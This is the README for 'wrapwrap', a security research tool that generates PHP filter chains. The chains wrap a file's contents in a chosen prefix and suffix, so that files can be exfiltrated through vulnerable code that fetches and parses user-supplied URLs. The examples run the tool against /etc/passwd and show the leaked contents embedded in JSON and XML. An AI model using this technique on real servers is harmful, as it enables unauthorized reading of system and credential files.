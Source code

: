 # wrapwrap

Generates a `php://filter` chain that adds a prefix and a suffix to the contents of a file.

Refer to [our blogpost](https://www.ambionics.io/blog/wrapwrap-php-filters-suffix) for details about the implementation.

# Contributing

If you want to contribute, the main python file contains a few TODOs which should not be hard to implement.

# Examples

## JSON

Say you have code like so:

```php
$data = file_get_contents($_POST['url']);
$data = json_decode($data);
echo $data->message;
```

To obtain the contents of some file, we'd like to have: `{"message":"<file contents>"}`. This can be done using:

```shell
$ ./wrapwrap.py /etc/passwd '{"message":"' '"}' 1000
[*] Dumping 1008 bytes from /etc/passwd.
[+] Wrote filter chain to chain.txt (size=705031).
```

This yields:

```json
{"message":"root:x:0:0:root:/root:/bin/bash=0Adaemon:..."}
```

## XML

If some PHP code parses an arbitrary XML and displays the contents of the `<name>` tag, we'd like something like: `<root><name>[file contents]</name></root>`. As a result, we'd use:

```shell
$ ./wrapwrap.py /etc/passwd '<root><name>' '</name></root>' 1000
[*] Dumping 1008 bytes from /etc/passwd.
[+] Wrote filter chain to chain.txt (size=709871).
```

This produces:

```xml
<root><name>root:x:0:0:root:/root:/bin/bash=0Adaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin=0Abin:x:...</name></root>
```